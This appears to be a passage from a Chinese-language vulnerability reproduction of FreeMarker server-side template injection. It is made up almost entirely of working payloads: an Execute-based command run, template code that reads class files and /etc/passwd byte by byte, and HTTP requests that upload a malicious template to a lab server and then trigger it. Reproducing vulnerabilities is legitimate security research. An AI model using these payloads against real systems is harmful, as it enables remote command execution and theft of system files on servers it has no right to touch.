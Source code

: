 ```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("open -a Calculator.app") }
```

读取文件

```java
<#assign is=object?api.class.getResourceAsStream("/Test.class")>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
<#assign uri=object?api.class.getResource("/").toURI()>
<#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
<#assign is=input?api.getInputStream()>
FILE:[<#list 0..999999999 as _>
    <#assign byte=is.read()>
    <#if byte == -1>
        <#break>
    </#if>
${byte}, </#list>]
```

## 漏洞复现与分析

### 漏洞复现

```http
POST /template HTTP/1.1
Host: 192.168.2.10:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 344

{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"open -a Calculator.app\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
POST /hello HTTP/1.1
Host: 192.168.2.10:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 15

{"name": "aaa"}
```
